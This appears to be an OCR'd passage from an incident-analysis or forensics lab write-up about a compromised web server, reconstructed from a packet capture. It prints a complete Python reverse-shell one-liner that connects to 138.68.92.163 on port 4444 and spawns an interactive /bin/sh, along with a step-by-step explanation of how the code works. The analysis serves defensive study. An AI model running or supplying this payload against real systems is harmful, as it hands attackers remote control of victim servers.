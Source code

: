 import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("138.68.92.163",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

Establishes a connection to the attacker?s IP 138.68.92.163 on port 4444.Redirects the input, output, and error streams to the attacker's system.Executes a shell, granting the attacker complete control over the server. |
















| 4.1 |
|----------|
|  The attack involves the deployment of a reverse shell through a vulnerable web server endpoint. The attacker used a malicious Python script to establish a remote connection to their machine |
|  |
| Code breakdown:

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("138.68.92.163",4444));

Use socket library  to establish connection to 138.68.92.163 on port 4444 

os.dup2(s.fileno(),0);

Standard I/O streams (stdin, stdout, stderr) were redirected to the attacker?s socket to enable full interactive control over the compromised system

p=subprocess.call(["/bin/sh","-i"]);

Execution of the reverse shell script allowed the attacker to access the victim server using the shell /bin/sh as the default user

 The shell session is initiated as the current user, but it is remotely accessible, a setup commonly referred to as a "reverse shell" |








| 5.0 |
|----------|
| Remote Code Execution (RCE) through a malicious PHP file uploaded via an unprotected interface begins at 2022-02-20 02:59:04.191040 |
|  |
| From 4.1, we follow the malicious python code calling to 138.68.92.163:4444/tcp
In Wireshark
File used:phl_webserver.pcap
